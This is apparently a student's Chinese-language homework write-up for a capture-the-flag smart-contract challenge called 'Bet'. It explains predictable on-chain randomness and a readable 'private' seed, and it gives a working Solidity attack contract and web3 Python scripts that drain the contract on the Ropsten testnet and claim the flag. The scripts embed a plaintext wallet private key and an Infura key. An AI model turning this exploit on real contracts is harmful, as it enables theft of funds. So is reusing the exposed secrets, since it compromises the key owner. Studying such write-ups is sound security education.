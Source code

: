 ```yaml
---
tags: 2020 程式安全
---
```

# HW3
## Bet
### 題目分析
* 一開始要跟BetFactory發送一筆交易去呼叫BetFactory的create()去產生一個新的合約Bet
* Bet合約裡面有個bet()只要輸入的值和Bet合約裡面的getRandom()得到的值相同就能把合約裡面全部的錢拿走
* 當Bet合約裡面的錢都被拿光之後就能夠把server給的token當作參數去發起一筆交易呼叫BetFactory裡面的validate
* 當server發現有一筆成功的交易裡面的token跟一開始給出來的相同就能拿到flag
### 漏洞
* 這題的漏洞主要有兩個部分
    1. 在Bet合約裡面seed的屬性是private但是並不是無法查看只要從節點上找到那個合約就能從那個合約知道seed的值是多少
    2. 亂數產生的方式是用最新產生的那塊block前一塊的hash值跟seed做運算得到的
* 因為seed可以知道再加上我們可以知道呼叫合約當下最新產生那個block前一塊的hash所以這些都拿到後算一下就能算出getRandom()產生的值是多少
* 算出getRandom()產生的值後就能夠把他傳入Bet合約裡面的bet()這樣能夠獲勝把整個合約的錢取走
### Exploit
* 這邊直接部署另外一份HackBet合約讓他去跟BetFactory互動
* 因為BetFactory是根據跟他互動的地址產生一個唯一的Bet合約自己只能跟自己透過create產生的Bet合約互動所以HackBet合約裡面要有create和validate這樣才能由HackBet這個合約來完成create和validate
* 再定義一個run讓他來計算`seed ^ uint(blockhash(block.number - 1))`的值然後傳給Bet合約裡面的bet()就能獲勝而這邊seed等呼叫合約的時候再去節點上看他的值是多少再傳入
* 最後要寫個receive()這樣才能把獲勝之後的錢拿回來不然因為他是合約對合約沒有receive()的話當他執行到`msg.sender.call{value: address(this).balance}("");`的時候會壞掉最後這筆交易會被revert就無法成功
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.0;

contract BetFactory
{
    function create() public payable {}
    function validate(uint) public payable {}
}

contract Bet
{
    function bet(uint) public payable {}
    function getRandom() internal returns(uint) {}
}

contract HackBet
{
    address target;
    function create(address _factory) public payable
    {
        BetFactory factory = BetFactory(_factory);
        factory.create{value: msg.value}();
    }
    function validate(address _factory, uint token) public payable
    {
        BetFactory factory = BetFactory(_factory);
        factory.validate(token);
    }
    function run(address _target, uint seed) public payable
    {
        target = _target;
        Bet instance = Bet(target);
        uint rand = seed ^ uint(blockhash(block.number - 1));
        instance.bet{value: msg.value}(rand);
    }
    receive () external payable 
    {
        Bet instance = Bet(target);
        if(address(instance).balance > 0)
        {
            msg.sender.call{value: address(this).balance}("");   
        }
    }
}
```
* 一開始先看HackBet的地址有沒有在BetFactory那邊create過如果有create過那instance的值就不會是0x0000000000000000000000000000000000000000
* 如果沒有create過就發起一筆交易用HackBet裡面的create去跟BetFactory產生一個Bet合約這邊create的這筆交易必須要有eth不然會失敗所以這個交易的value給他0.5eth
* 然後就等他交易成功上鏈之後就會產生一個Bet合約這時候就可以來跟這個Bet合約互動來玩裡面的bet()
* 因為他在算隨機值的時候會用到private的seed所以我們就可以直接到節點上找到這份Bet合約然後用getStorageAt把seed的值讀出來因為0的位置是存產生這份Bet合約的地址1才是seed所以要讀1裡面的值
* 找出seed之後就可以再發起一筆交易把它傳給HackBet的run然後讓他把隨機值算出來然後傳給Bet的bet()這樣就能夠獲勝把Bet合約裡面的錢贏走
```python=
import json
from time import sleep
from web3 import Web3, HTTPProvider

w3 = Web3(HTTPProvider('https://ropsten.infura.io/v3/15253aad1d464c0ea37c6a342fe0e1b3'))
account = w3.toChecksumAddress('0xf75ad09Aea6569e0d54Ccde65b655A598e9b66E4')
w3.eth.defaultAccount = account
privateKey = bytes.fromhex('40a8d082c7e38882d20e7bf174d3a9ea246c82073c7f7f061f4f6bb78bfdbf55')
factoryAddr = w3.toChecksumAddress('0x8e0a809B1f413deB6427535cC53383954DBF8329')
factory = w3.eth.contract(address=factoryAddr, abi=json.loads(open('./BetFactory.abi').read()))
hackAddr = w3.toChecksumAddress('0x27d967Ff06498d2Ac8A0726A16863AD743d1447d')
hack = w3.eth.contract(address=hackAddr, abi=json.loads(open('./HackBet.abi').read()))

instancesAddr = factory.functions.instances(hackAddr).call()
if instancesAddr == '0x0000000000000000000000000000000000000000':
    tx = hack.functions.create(factoryAddr).buildTransaction({
        'nonce': w3.eth.getTransactionCount(account),
        'gas': 300000,
        'gasPrice': w3.toWei(1000, 'Gwei'),
        'value': w3.toWei(0.5, 'ether')
    })
    signTx = w3.eth.account.signTransaction(tx, private_key=privateKey)
    txHash = w3.eth.sendRawTransaction(signTx.rawTransaction)
    print('transaction -> https://ropsten.etherscan.io/tx/' + hex(int.from_bytes(txHash, 'big')))
    counter = 0
    while 1:
        sleep(1)
        instancesAddr = factory.functions.instances(hackAddr).call()
        if instancesAddr != '0x0000000000000000000000000000000000000000':
            break
        counter += 1
        if counter > 300:
            print('wait too long...')
            exit(0)
print(f'instances = {instancesAddr}')
instances = w3.eth.contract(address=instancesAddr, abi=json.loads(open('./Bet.abi').read()))
seed = int.from_bytes(w3.eth.getStorageAt(account=instancesAddr, position=1), 'big')
tx = hack.functions.run(instancesAddr, seed).buildTransaction({
    'nonce': w3.eth.getTransactionCount(account),
    'gas': 300000,
    'gasPrice': w3.toWei(1000, 'Gwei'),
    'value': w3.toWei(0.1, 'ether')
})
signTx = w3.eth.account.signTransaction(tx, private_key=privateKey)
txHash = w3.eth.sendRawTransaction(signTx.rawTransaction)
print('transaction -> https://ropsten.etherscan.io/tx/' + hex(int.from_bytes(txHash, 'big')))
```
* 當Bet合約裡面沒錢之後就可以去發起一筆交易去呼叫validate並把token傳進去這樣就能拿到flag了
```python=
from web3 import Web3, HTTPProvider
import json

w3 = Web3(HTTPProvider('https://ropsten.infura.io/v3/15253aad1d464c0ea37c6a342fe0e1b3'))
account = w3.toChecksumAddress('0xf75ad09Aea6569e0d54Ccde65b655A598e9b66E4')
w3.eth.defaultAccount = account
privateKey = bytes.fromhex('40a8d082c7e38882d20e7bf174d3a9ea246c82073c7f7f061f4f6bb78bfdbf55')
factoryAddr = w3.toChecksumAddress('0x8e0a809B1f413deB6427535cC53383954DBF8329')
hackAddr = w3.toChecksumAddress('0x27d967Ff06498d2Ac8A0726A16863AD743d1447d')
hack = w3.eth.contract(address=hackAddr, abi=json.loads(open('./HackBet.abi').read()))

tx = hack.functions.validate(factoryAddr, 0xcaa003cb2c8feffc6716206682926a5cdeb73f7fa26d8f2f2fc0686d89d513d5).buildTransaction({
    'nonce': w3.eth.getTransactionCount(account),
    'gas': 300000,
    'gasPrice': w3.toWei(1000, 'Gwei')
})
signTx = w3.eth.account.signTransaction(tx, private_key=privateKey)
txHash = w3.eth.sendRawTransaction(signTx.rawTransaction)
print('transaction -> https://ropsten.etherscan.io/tx/' + hex(int.from_bytes(txHash, 'big')))
```
### FLAG
>FLAG{CgMZBaRrk4tY1xnnEdDi}